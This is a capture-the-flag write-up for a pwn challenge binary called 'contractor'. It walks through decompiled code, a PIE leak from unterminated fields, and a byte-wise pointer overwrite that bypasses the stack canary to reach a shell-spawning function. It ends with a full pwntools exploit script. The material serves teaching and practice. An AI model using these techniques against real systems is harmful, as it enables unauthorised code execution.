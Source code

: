 * Description

Sir Alaric calls upon the bravest adventures to join him in assembling the mightiest army in all of
Eldoria. Together, you will safeguard the peace across the villages under his protection. Do you
have the courage to answer the call?

* Solution
** Preliminary analysis
The program normal do something like following:
[[file:2025-04-20_10-53.png]]

Let's load it into disassembler to see what's the internal detail.
#+begin_src c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  void *v3; // rsp
  int s_; // [rsp+8h] [rbp-20h] BYREF
  int v6; // [rsp+Ch] [rbp-1Ch]
  void *s; // [rsp+10h] [rbp-18h]
  char s1[4]; // [rsp+1Ch] [rbp-Ch] BYREF
  unsigned __int64 v9; // [rsp+20h] [rbp-8h]

  v9 = __readfsqword(0x28u);
  v3 = alloca(0x130);
  s = &s_;
  memset(&s_, 0, 0x128u);
  printf(
    "%s[%sSir Alaric%s]: Young lad, I'm truly glad you want to join forces with me, but first I need you to tell me some "
    "things about you.. Please introduce yourself. What is your name?\n"
    "\n"
    "> ",
    "\x1B[1;34m",
    "\x1B[1;33m",
    "\x1B[1;34m");
  for ( i = 0; (unsigned int)i <= 0xF; ++i )
  {
    read(0, &safe_buffer, 1u);
    if ( safe_buffer == '\n' )
      break;
    *((_BYTE *)s + i) = safe_buffer;
  }
  printf(
    "\n[%sSir Alaric%s]: Excellent! Now can you tell me the reason you want to join me?\n\n> ",
    "\x1B[1;33m",
    "\x1B[1;34m");
  for ( i = 0; (unsigned int)i <= 0xFF; ++i )
  {
    read(0, &safe_buffer, 1u);
    if ( safe_buffer == 10 )
      break;
    *((_BYTE *)s + i + 16) = safe_buffer;
  }
  printf(
    "\n[%sSir Alaric%s]: That's quite the reason why! And what is your age again?\n\n> ",
    "\x1B[1;33m",
    "\x1B[1;34m");
  __isoc99_scanf("%ld", (char *)s + 272);
  printf(
    "\n"
    "[%sSir Alaric%s]: You sound mature and experienced! One last thing, you have a certain specialty in combat?\n"
    "\n"
    "> ",
    "\x1B[1;33m",
    "\x1B[1;34m");
  for ( i = 0; (unsigned int)i <= 0xF; ++i )
  {
    read(0, &safe_buffer, 1u);
    if ( safe_buffer == 10 )
      break;
    *((_BYTE *)s + i + 280) = safe_buffer;
  }
  printf(
    "\n"
    "[%sSir Alaric%s]: So, to sum things up: \n"
    "\n"
    "+------------------------------------------------------------------------+\n"
    "\n"
    "\t[Name]: %s\n"
    "\t[Reason to join]: %s\n"
    "\t[Age]: %ld\n"
    "\t[Specialty]: %s\n"
    "\n"
    "+------------------------------------------------------------------------+\n"
    "\n",
    "\x1B[1;33m",
    "\x1B[1;34m",
    (const char *)s,
    (const char *)s + 16,
    *((_QWORD *)s + 34),
    (const char *)s + 280);
  v6 = 0;
  printf(
    "[%sSir Alaric%s]: Please review and verify that your information is true and correct.\n",
    "\x1B[1;33m",
    "\x1B[1;34m");
  do
  {
    printf("\n1. Name      2. Reason\n3. Age       4. Specialty\n\n> ");
    __isoc99_scanf("%d", &s_);
    if ( s_ == 4 )
    {
      printf("\n%s[%sSir Alaric%s]: And what are you good at: ", "\x1B[1;34m", "\x1B[1;33m", "\x1B[1;34m");
      for ( i = 0; (unsigned int)i <= 0xFF; ++i )
      {
        read(0, &safe_buffer, 1u);
        if ( safe_buffer == 10 )
          break;
        *((_BYTE *)s + i + 280) = safe_buffer;
      }
      ++v6;
    }
    else
    {
      if ( s_ > 4 )
        goto LABEL_36;
      switch ( s_ )
      {
        case 3:
          printf(
            "\n%s[%sSir Alaric%s]: Did you say you are 120 years old? Please specify again: ",
            "\x1B[1;34m",
            "\x1B[1;33m",
            "\x1B[1;34m");
          __isoc99_scanf("%d", (char *)s + 272);
          ++v6;
          break;
        case 1:
          printf("\n%s[%sSir Alaric%s]: Say your name again: ", "\x1B[1;34m", "\x1B[1;33m", "\x1B[1;34m");
          for ( i = 0; (unsigned int)i <= 0xF; ++i )
          {
            read(0, &safe_buffer, 1u);
            if ( safe_buffer == 10 )
              break;
            *((_BYTE *)s + i) = safe_buffer;
          }
          ++v6;
          break;
        case 2:
          printf("\n%s[%sSir Alaric%s]: Specify the reason again please: ", "\x1B[1;34m", "\x1B[1;33m", "\x1B[1;34m");
          for ( i = 0; (unsigned int)i <= 0xFF; ++i )
          {
            read(0, &safe_buffer, 1u);
            if ( safe_buffer == 10 )
              break;
            *((_BYTE *)s + i + 16) = safe_buffer;
          }
          ++v6;
          break;
        default:
LABEL_36:
          printf("\n%s[%sSir Alaric%s]: Are you mocking me kid??\n\n", "\x1B[1;31m", "\x1B[1;33m", "\x1B[1;31m");
          exit(1312);
      }
    }
    if ( v6 == 1 )
    {
      printf(
        "\n%s[%sSir Alaric%s]: I suppose everything is correct now?\n\n> ",
        "\x1B[1;34m",
        "\x1B[1;33m",
        "\x1B[1;34m");
      for ( i = 0; (unsigned int)i <= 3; ++i )
      {
        read(0, &safe_buffer, 1u);
        if ( safe_buffer == 10 )
          break;
        s1[i] = safe_buffer;
      }
      if ( !strncmp(s1, "Yes", 3u) )
        break;
    }
  }
  while ( v6 <= 1 );
  printf("\n%s[%sSir Alaric%s]: We are ready to recruit you young lad!\n\n", "\x1B[1;34m", "\x1B[1;33m", "\x1B[1;34m");
  return 0;
}
#+end_src

#+begin_src bash
❯ checksec dist/contractor
[*] '/home/curtain/Documents/ctf/2025/apocalypse-35/pwn/constractor/dist/contractor'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    RUNPATH:    b'./glibc/'
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
#+end_src

** PIE base address leak
This ~main~ function seems like a little big, let's break it down:
1. ~alloca(0x130)~ just allocate memory on stack, the following =GDB= debug will verify that just
   something like ~sub rsp, 0x130~.
   [[file:2025-04-20_12-01.png]]
2. zero out the first ~0x128~ bytes for program use, then read 4 fields separately, *Please note that 
   all the fields are not NULL terminated*. Combined with point 1 and 3, we can leverage this to leak
   the =PIE= base address.
3. after get all field, print it out to =stdout.=
   
We can create struct for that informations:
#+begin_src c
struct PersonInfo {
    char name[0x10];
    char reason[0x100];
    long age;
    char specialty[0x10];
};
#+end_src

** Bypass stack canary and overwrite return address
After exhibit ~PersonInfo~ to user, the program give one chance to review and correct the information.
*But within the number 4 field, which is ~specialty~, there's a buffer overflow exist!*
#+begin_src c
if ( s_ == 4 )
{
      printf("\n%s[%sSir Alaric%s]: And what are you good at: ", "\x1B[1;34m", "\x1B[1;33m", "\x1B[1;34m");
      for ( i = 0; (unsigned int)i <= 0xFF; ++i )
      {
        read(0, &safe_buffer, 1u);
        if ( safe_buffer == 10 )
          break;
        *((_BYTE *)s + i + 280) = safe_buffer;
      }
      ++v6;
}
#+end_src

Remember that field only have ~0x10~ length, but here we can read in ~0x100~ bytes. Luckily, and buffer
pointer behind that field by chance.
#+begin_src c
void *s; // [rsp+10h] [rbp-18h]
#+end_src

#+begin_src bash
pwndbg> x/50gx $rsp
0x7fffffffd5f0: 0x0000000000000000      0x0000000000000000
0x7fffffffd600: 0x0000000000000000      0x0000000000000000
0x7fffffffd610: 0x0000000000000000      0x0000000000000000
0x7fffffffd620: 0x0000000000000000      0x0000000000000000
0x7fffffffd630: 0x0000000000000000      0x0000000000000000
0x7fffffffd640: 0x0000000000000000      0x0000000000000000
0x7fffffffd650: 0x0000000000000000      0x0000000000000000
0x7fffffffd660: 0x0000000000000000      0x0000000000000000
0x7fffffffd670: 0x0000000000000000      0x0000000000000000
0x7fffffffd680: 0x0000000000000000      0x0000000000000000
0x7fffffffd690: 0x0000000000000000      0x0000000000000000
0x7fffffffd6a0: 0x0000000000000000      0x0000000000000000
0x7fffffffd6b0: 0x0000000000000000      0x0000000000000000
0x7fffffffd6c0: 0x0000000000000000      0x0000000000000000
0x7fffffffd6d0: 0x0000000000000000      0x0000000000000000
0x7fffffffd6e0: 0x0000000000000000      0x0000000000000000
0x7fffffffd6f0: 0x0000000000000000      0x0000000000000000
0x7fffffffd700: 0x0000000000000000      0x0000000000000000 # specialty field
0x7fffffffd710: 0x0000000000000000      0x0000555555555b50
0x7fffffffd720: 0x0000000000000000      0x00007fffffffd5f0 # `s` pointer
0x7fffffffd730: 0x00007fffffffd830      0xa37e3db37979ea00 # canary
0x7fffffffd740: 0x0000000000000000      0x00007ffff7df9083 # return address
0x7fffffffd750: 0x00007ffff7ffc620      0x00007fffffffd838
0x7fffffffd760: 0x0000000100000000      0x0000555555555441
0x7fffffffd770: 0x0000555555555b50      0x1910efebb5ebd6c6
#+end_src

So we can overwrite that ~s~ pointer's last byte (casuse ~read~ byte one by one) to =return address='s
address first, there is 1/16 chance for us (cause last lower bibble must be ~0xf~, see below
assignment, when we overwrite ~s~'s last byte, the next ~i~ index is ~0x21~, for alignment, so the higher
nibble can be 1/16 chance to success). then in the next loop we can overwrite return address
directly without bother canary at all.     
#+begin_src c
// offset_specialty2s = 0x20
,*(s + i + 0x118) = safe_buffer
#+end_src

BTW, there's ~win~ function within the binary:
#+begin_src c
unsigned __int64 contract()
{
  unsigned __int64 v1; // [rsp+8h] [rbp-8h]

  v1 = __readfsqword(0x28u);
  execl("/bin/sh", "sh", 0);
  return __readfsqword(0x28u) ^ v1;
}
#+end_src

** Script
#+begin_src python :results output
#!/usr/bin/env python3

from pwn import *

context.arch = 'amd64'
context.log_level = 'critical'

cnt = 1
fname = './contractor'

while True:
    io = process(fname)

    elf = ELF(fname, checksec=False)

    try:
        _ = io.sendlineafter(b'> ', b'A')
        _ = io.sendlineafter(b'> ', b'B')
        _ = io.sendlineafter(b'> ', b'1')
        _ = io.sendlineafter(b'> ', b'D' * 0x10)

        _ = io.recvuntil(b'D' * 0x10)
        pie_leak = u64(io.recvline().strip().ljust(8, b'\x00'))
        elf.address = pie_leak - 0x1b50
        # IDEA: \r + end='' to achieve the goal that only display last successful try
        print(f'\r{cnt} pie_leak: {pie_leak:#x}, pie_base: {elf.address:#x}', end='')

        # for overflow
        win = elf.sym['contract']
        _ = io.sendlineafter(b'> ', b'4')
        # $rbp - 0x1c -> while loop cnt, overwrite a number > 1 will jump out loop, so this method don't need send 'Yes'.
        payload = b'\x00' * 0x18 + b'B' * 8 # fill gaps
        payload += b'\x2f' # lower nibble f must be there, higher nibble is guess
        payload += p64(win)
        _ = io.sendlineafter(b': ', payload)

        io.sendline(b'cat flag*')
        flag = io.recvline_contains(b'HTB', timeout=0.2)

        if b'HTB' in flag:
            print(f'\n{cnt} {flag.decode()}')
            io.close()
            # BUG: this just raise SystemExit() Exception, will be capture by folloing except if
            # that not limited to EOFError, which cause dead loop
            exit()
    except EOFError as e:
        cnt += 1
        io.close()
#+end_src
